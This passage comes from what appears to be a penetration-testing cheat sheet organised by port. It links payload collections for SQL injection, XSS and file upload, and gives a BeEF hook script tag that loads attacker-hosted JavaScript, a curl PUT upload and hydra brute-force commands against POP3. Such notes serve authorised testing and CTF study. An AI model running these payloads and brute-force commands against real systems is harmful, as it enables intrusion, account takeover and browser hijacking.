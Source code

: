 ```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```

### SQL injection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://blog.cobalt.io/a-pentesters-guide-to-sql-injection-sqli-16fd570c3532
```

### XSS

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>
```

### Other web vulnerabilities

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

### Upload a file with PUT

```
curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v
```

------

## KERBEROS - 88

```
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
```

------

## POP3 - 110

### Brute force 

```
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```

### Read mail
